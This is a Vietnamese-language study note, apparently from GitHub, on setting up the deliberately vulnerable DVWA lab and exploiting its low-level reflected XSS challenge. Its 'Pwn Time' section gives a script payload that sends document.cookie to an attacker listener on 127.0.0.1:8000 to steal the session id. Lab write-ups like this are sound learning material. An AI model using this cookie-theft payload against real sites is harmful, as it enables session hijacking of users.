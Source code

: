 # Install DVWA on Ubuntu
[Kali](https://www.youtube.com/watch?v=GmWQ1VIjd2U&list=PLHUKi1UlEgOJLPSFZaFKMoexpM6qhOb4Q&ab_channel=CryptoCat)
[Ubuntu](https://www.youtube.com/watch?v=kMUdmmTL7OM&ab_channel=gp_sec)
> Install PHP & Apache2 & mysql
> www-data user

# XSS Reflected
## What?
Lợi dụng client request từ server, server sẽ respond lại thì lúc này hacker sẽ trả về respond chứa mã độc bao gồm <br>
user request.

## How?
### Low level
![image](https://github.com/user-attachments/assets/fdf93f3b-71f3-4570-be23-e80618d17bc5)

*Đầu tiên khi vào OWASP ta sẽ view source php*

> header() in php

1. Redirect to another page. <br>
```php
<?php
header("Location: https://www.example.com");  
exit; // Prevent further code execution 
?>
```
Nó sẽ gửi  request 'chuyển tiếp' đến server. Yêu cầu server phải đưa cho nó cái link trên. Dùng exit để đảm bảo ko <br>
có câu lệnh nào chèn thêm. <br>
2. Tránh caching
  
```php
<?php
header("Cache-Control: no-cache, must-revalidate");
header("Expires: Sat, 26 Jul 1997 05:00:00 GMT");
?>  
```
> Caching là gì?

Lưu lại những cái hoạt động thường xuyên của user để tăng tốc độ truy cập web. Cải thiện performance, giảm load on <br>
backend sys, database...

Ví dụ ở trên cho ta biết đó là loại Browser-caching, nó sẽ gia hạn cho resources được phép tồn tại bao lâu. Ngoài ra, <br>
mik còn 1 số loại caching như: Server side caching, CDN caching, Application Level caching... Bên cạnh đó đi kèm đó chính là <br>
những stragegy để caching (sẽ tìm hiểu sau)

> $GET

Siêu biến toàn cục (super global variable) dùng để lấy dữ liệu đc gửi qua URL thông qua phương thức GET

Example:
```http://example.com/index.php?name=Hung&age=30```

Ở đây mình sẽ sử dụng $GET để lấy name và age <br>

```php
<?php
$name = $_GET['name']; // "Hung"
$age = $_GET['age'];   // "30"

echo "Name: " . $name . "<br>";
echo "Age: " . $age;
?>
```

> array_key_exists(key, var)

Kiểm tra có tồn tại khóa *key* ở trong dãy *var* không?

## Pwn Time
1. Tạo 1 local host port 8000 = python3

![image](https://github.com/user-attachments/assets/340be4e7-2977-4853-b900-be0bea77fe46)

2. Mik sẽ chạy javascript trong input box, lúc đó biến 'name' = malicious code.
```
<script>window.location='http://127.0.0.1:8000/?cookie=' + document.cookie</script>
```
3. Kết quả

![image](https://github.com/user-attachments/assets/206feb0f-cedc-40aa-9c1a-80c09e8c0baa)
*Session id của user sẽ được gửi về terminal của attacker*



